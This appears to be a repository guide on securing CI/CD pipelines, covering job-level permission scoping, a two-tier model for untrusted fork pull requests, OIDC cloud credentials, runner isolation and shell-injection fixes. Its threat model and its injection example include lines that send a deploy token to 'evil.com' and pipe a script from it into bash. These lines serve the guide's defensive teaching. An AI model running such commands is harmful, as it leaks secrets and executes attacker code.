


# Pipeline Security, Supply Chain Defense & Least Privilege

> **Mandate**: *The CI/CD pipeline is the single most privileged surface in modern software engineering. It possesses the authority to build, sign, and deploy production software. It must be engineered under strict Zero Trust principles.*

---

## 1 · The Principle of Least Privilege (PoLP) & Token Scoping

Pipelines must never operate with default administrative or repository-wide write permissions.  
Permissions must be scoped **at the job level** to the exact operations performed:

$$\text{Perms}(\text{Job}) = \bigcap \text{RequiredCapabilities}(\text{Job})$$

### The Universal Permission Baseline
Every workflow must enforce a global read-only default:
```yaml
# Global Workflow Default
permissions: read-all
```
Individual jobs elevate only the specific permissions they strictly require:
```yaml
# Job: Publish Documentation
permissions:
  contents: read
  pages: write
  id-token: write

# Job: Code Review Lint (Zero Write Access)
permissions:
  contents: read
  pull-requests: write # Only if posting comments
```

---

## 2 · The Two-Tier Pull Request Security Model (Pwn Request Defense)

A catastrophic vulnerability pattern occurs when an untrusted pull request from a public fork executes inside an elevated context with access to repository secrets or write tokens.

### The Threat Model
An attacker opens a PR containing malicious code in tests or build scripts (e.g. `npm test` running `curl evil.com?token=$DEPLOY_KEY`).



### The Two-Tier Execution Rules
1. **Tier 1 — Untrusted Pull Request Context**:
   - Zero access to cloud credentials, production secrets, or write permissions.
   - Executes purely hermetic static analysis, formatting, unit tests with mocked fixtures, and build compilation.
   - Prohibited from deploying, publishing packages, or mutating external state.
2. **Tier 2 — Trusted Post-Merge / Authorized Maintainer Context**:
   - Executes only after merge to protected branches or following an explicit cryptographic sign-off by a trusted maintainer.
   - Possesses authority to authenticate to cloud providers via OIDC and dispatch deployments.

---

## 3 · OpenID Connect (OIDC) Cloud Federation vs Long-Lived Secrets

Static, long-lived cloud credentials (`AWS_ACCESS_KEY_ID`, `GCP_SA_KEY`, service principal passwords) stored in repository settings are prime targets for exfiltration and require manual key rotation.

### The OIDC Federated Flow
Pipelines must leverage short-lived, cryptographic OIDC tokens exchanged dynamically with cloud Identity and Access Management (IAM):



* **No Static Secrets**: Zero long-lived passwords or private keys stored in the CI database.
* **Cryptographic Attestation**: Cloud IAM verifies the exact repository, branch, and environment claims before issuing temporary credentials.

---

## 4 · Runner Isolation & Sandboxing

The compute host executing pipeline steps must prevent cross-job contamination:
1. **Ephemeral Runners (Recommended)**: Each job executes in a freshly provisioned virtual machine or container that is completely destroyed immediately upon job completion.
2. **Self-Hosted Runner Quarantining**:
   - Never run untrusted public pull requests on private, network-attached self-hosted runners.
   - If self-hosted runners are mandatory (e.g. for specialized GPU or embedded hardware), run each build within an ephemeral rootless container sandbox with restricted loopback networking.

---

## 5 · Script & Context Injection Sanitization

Interpolating untrusted user-controlled metadata (PR titles, commit messages, git branch names, issue comments) directly into shell commands enables arbitrary code execution:

### Vulnerable Pattern:
```bash
# FATAL: Shell injection via git branch name `main; curl evil.com | bash`
git checkout ${{ event.pull_request.head.ref }}
```

### Defensive Pattern:
Pass dynamic metadata via environment variables, never through direct string substitution:
```bash
# SAFE: Passed through environment variables
env:
  PR_REF: ${{ event.pull_request.head.ref }}
run: |
  git checkout "$PR_REF"
```
